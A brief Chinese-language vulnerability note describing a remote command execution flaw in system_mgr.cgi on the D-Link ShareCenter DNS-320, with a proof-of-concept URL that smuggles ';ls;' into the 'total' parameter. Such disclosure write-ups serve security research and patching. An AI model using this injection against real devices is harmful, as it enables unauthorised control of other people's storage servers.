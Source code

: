 # D-Link ShareCenter DNS-320 system_mgr.cgi 远程命令执行漏洞

## 漏洞描述

D-Link ShareCenter DNS-320 system_mgr.cgi 存在远程命令执行，攻击者通过漏洞可以控制服务器

## 漏洞影响

<a-checkbox checked>D-Link ShareCenter DNS-320</a-checkbox></br>

## 漏洞复现

登录页面如下

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20210605180903289.png)



漏洞POC为



```plain
/cgi-bin/system_mgr.cgi?cmd=cgi_get_log_item&total=;ls;
```



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20210605181224009.png)

